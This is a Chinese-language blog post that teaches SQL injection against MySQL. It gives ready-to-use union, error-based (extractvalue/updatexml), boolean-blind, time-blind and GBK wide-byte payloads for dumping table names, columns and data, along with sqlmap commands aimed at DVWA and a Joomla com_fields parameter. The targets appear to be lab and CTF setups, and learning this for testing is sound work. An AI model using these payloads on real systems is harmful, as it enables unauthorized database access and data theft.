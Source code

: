 ```yaml
---
layout: post
title: SQL注入漏洞
subtitle: SQL Injection
date: 2025-07-09 14:58
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - MySQL
  - 安全
published: true
---
```

## 1. SQL注入分类

```
按SQLMap中的分类来看，SQL注入类型有以下 5 种：
UNION query SQL injection（可联合查询注入）
Stacked queries SQL injection（可多语句查询注入）
Boolean-based blind SQL injection（布尔型注入）
Error-based SQL injection（报错型注入）
Time-based blind SQL injection（基于时间延迟注入）
```

**手工注入常规思路：**

1. 判断是否存在注入，注入是字符型还是数字型
2. 猜解 SQL 查询语句中的字段数
3. 确定显示的字段顺序
4. 获取当前数据库
5. 获取数据库中的表
6. 获取表中的字段名
7. 查询到账户的数据

**SELECT 特殊应用**

```sql
SELECT DATABASE();	-- 查看当前使用数据库
SELECT VERSION();	-- 版本
SELECT USER();		-- 查看当前登陆数据库用户
select @@datadir;	-- 数据路径
select @@basedir;	-- mysql安装路径
select @@version_compile_os;	-- mysql安装的所在os系统
```

## 2. 相关函数

相关函数：`UpdateXML()`, `ExtractValue()`, `concat()`, `substr()`
#### 2.1.1. UpdateXML(xml_doc,xpath_expr,new_xml)

此函数将xml_doc中用xpath_expr路径匹配到XML片段用new_xml替换，然后返回更改后的XML，三个参数都为字符串。
xml_doc被替换的部分与xpath_expr提供的XPath表达式匹配。
如果找不到表达式匹配 xpath_expr项，或者找到多个匹配项，则该函数返回原始 xml_doc片段。

**报错原理**：利用concat(a_str,sql_str)构造不符合Xpath语法的字符串，导致其解析时报错，updatexml函数将返回报错内容，其中a_str用于让Xpath解析失败，sql_str为正确的能被解析的sql语句。
#### 2.1.2. ExtractValue(xml_doc, xpath_expr)

此函数是返回在xml_doc用xpath_expr路径匹配到的XML片段。报错原理与updatexml()相同。
#### 2.1.3. substr(str_target,pos,length)

对str_target字符串进行截取，从第pos位开始，返回长度为length的字符串。
其中，pos从1开始。
## 3. 手工注入
#### 3.1.1. 联合查询

```sql
-- 获取table
union select database(),group_concat(table_name) from information_schema.tables where table_schema=database()--+
-- 获取column
union select database(),group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='flag'--+
-- or
union select database(),group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x666c6167--+
-- 获取表中值
union select database(),group_concat(flag) from flag--+
```
#### 3.1.2. 报错查询

```sql
# 获取数据库名
and extractvalue(1,concat(0x7e,database()))--+
# 获取表名
and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database())))--+
# 获取列名
and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='flag')))--+
# 获取字段值
and extractvalue(1,concat(0x7e,substr((select group_concat(flag) from flag),1,30)))--+
```
#### 3.1.3. 布尔盲注

```mysql
# 猜数据库名长度
1 and length(database())=100--+
# 猜数据库字符值
1 and ascii(substr(database(),1,1))=100--+
# 猜表数量
1 and (select count(table_name) from information_schema.tables where table_schema=database())=100--+
# 猜表长度
1 and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=100--+
# 猜表字段
1 and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=100--+
# 猜列数量
1 and (select count(column_name) from information_schema.tables where table_schema=database() and table_name='flag')=100--+
# 猜列长度
1 and length((select count(column_name) from information_schema.tables where table_schema=database() and table_name='flag' limit 0,1))=100--+
# 猜列字段
1 and ascii(substr((select count(column_name) from information_schema.tables where table_schema=database() and table_name='flag' limit 0,1),1,1))=100--+
# 猜数据值数量
1 and (select count(flag) from flag)=100--+
```
#### 3.1.4. 时间盲注

```mysql
# 猜数据库名长度
1 and if(length(database())=100,sleep(3),0)--+
```
#### 3.1.5. 宽字节注入


使用条件：
编码格式：GBK, GBK2312等
过滤函数：mysql_real_escape_string, addslashes等

原理：为绕过转义处理，使转义字符与输入字符结合成一个新的字符，使其无法转义

```mysql
'1%df' or 1=1 #

# 16进制ASCII
'-1%df' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x7573657273 --+
# group by
'-1%df' union select 1,table_name,group_concat(column_name) from information_schema.columns where table_schema=database() group by table_name limit 3,1 --+
```

## 4. 工具注入

#### 4.1.1. sqlmap

```shell
# 获取数据库
sqlmap -u "http://" --cookie="PHPSESSID=de4a36j8c76rh39pm9hjr55k51; security=low" --batch --dbs
# 获取表
sqlmap -u "http://" --cookie="PHPSESSID=de4a36j8c76rh39pm9hjr55k51; security=low" --batch -D dvwa --tables
# 获取列
sqlmap -u "http://" --cookie="PHPSESSID=de4a36j8c76rh39pm9hjr55k51; security=low" --batch -D dvwa -T users --columns
# 获取数据
sqlmap -u "http://" --cookie="PHPSESSID=de4a36j8c76rh39pm9hjr55k51; security=low" --batch -D dvwa -T users -C user --dump
```

```shell
sqlmap -u "http://192.168.163.131/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] --dbs --batch
```

post 方式测试

```shell
sqlmap -r a.txt -p uname --dbs
```